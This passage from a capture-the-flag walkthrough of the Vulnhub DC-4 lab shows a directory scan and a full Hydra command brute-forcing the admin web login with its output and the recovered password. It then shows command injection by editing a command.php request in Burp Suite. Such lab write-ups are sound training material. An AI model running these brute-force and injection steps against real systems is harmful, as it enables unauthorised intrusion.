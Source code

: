 ```bash
[13:17:45] 301 -  170B  - /css  ->  http://10.0.2.33/css/                   
[13:17:50] 403 -  556B  - /images/                                          
[13:17:50] 301 -  170B  - /images  ->  http://10.0.2.33/images/             
[13:17:51] 200 -  506B  - /index.php                                        
[13:17:51] 403 -   15B  - /index.pHp                                        
[13:17:53] 302 -  206B  - /login.php  ->  index.php                         
[13:17:54] 302 -  163B  - /logout.php  ->  index.php                        
                                                                             
Task Completed 
```
It looks like there is a file called `command.php` present. The file redirects only to `index.php`. So we need to logon to this webapplication.

Let's try to brute force for the user `admin` a password with Hydra/

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ 
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip http-post-form '/login.php:username=^USER^&password=^PASS^:S=command' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 13:24:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.0.2.33:80/login.php:username=^USER^&password=^PASS^:S=command
[80][http-post-form] host: 10.0.2.33   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 13:24:25
``` 

Now logon the the System Tools with the credentials `admin:happy`.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327132800.png){: width="700" height="400" }


Click on the `Command` link to open the command.php file.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327132845.png){: width="700" height="400" }

It looks like we can run some commands if we choose one of the radio buttons and click on the `Run` button. To adjust the request we need to intercept the request with a proxy. To do so we have to intercept the request with Burp Suite and identify if we can run our own commands.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327133631.png){: width="700" height="400" }

It looks like there is a command `ls -l` send to the server.
Now let's change this command to `whoami` to see if this might work for us.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327133738.png){: width="700" height="400" }

And then forward the request to the target.
![Image](/assets/img/WriteUp/Vulnhub/DC4/Pasted image 20230327133815.png){: width="700" height="400" }
